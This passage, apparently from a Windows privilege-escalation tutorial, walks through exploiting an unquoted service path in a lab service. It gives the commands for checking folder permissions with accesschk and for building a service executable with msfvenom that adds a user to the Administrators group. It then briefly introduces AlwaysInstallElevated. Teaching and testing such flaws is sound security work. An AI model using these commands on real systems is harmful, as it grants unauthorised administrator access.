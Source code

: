 Automated scan results show that the service "demosvc" is vulnerable to
unquoted service path vulnerability.\
![Unquoted service path
vulnerability](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image31.png){width="6.5in"
height="3.125in"}

You can check manually using sc command:

sc qc \<service name\>

![manual scan image
2](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image26.png){width="6.013888888888889in"
height="2.75in"}\
In this case, the path of service executable is C:Program FilesUnquoted
Pathuqsp.exe. It contains blank space and is not wrapped in a quote.
When SCM(Service Control Manager) starts this service, it will look at
the following paths in order, and it will run first exe that it will
find:

C:Program.exe

C:Program FilesUnquoted.exe

C:Program FilesUnquoted Pathuqsp.exe

Check permission on installed service folder.

accesschk.exe /accepteula -uwdq \"C:Program Files\"

If we have write permission in "C" or "Program Files" folder, then we
can generate our shellcode with the name ("Program.exe" or
"Unquoted.exe") and add that in the required folders.

msfvenom -p windows/exec CMD=\"net localgroup administrators test /add\"
-f exe-service -o Unquoted.exe

Place the file "Unquoted.exe" under the "Program Files" folder.\
![Unquoted.exe](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image30.png){width="5.819444444444445in"
height="4.361111111111111in"}

Now restart the service "demosvc" to get your shell code executed.\
![demosvc
executed](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image10.png){width="5.375in"
height="6.444444444444445in"}

The above image depicts that the user Test has been added successfully
to the Administrators group.

## **Always Elevated Install**

[[AlwaysInstallElevated]{.underline}](https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)
setting allows a non-privileged user to run Microsoft Windows Installer
Package (msi) with elevated privileges. Microsoft strongly discourages
this policy. Our scan report already flagged this vulnerability.\
![Vulnerability
flagged](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image7.png){width="6.5in"
height="0.6666666666666666in"}

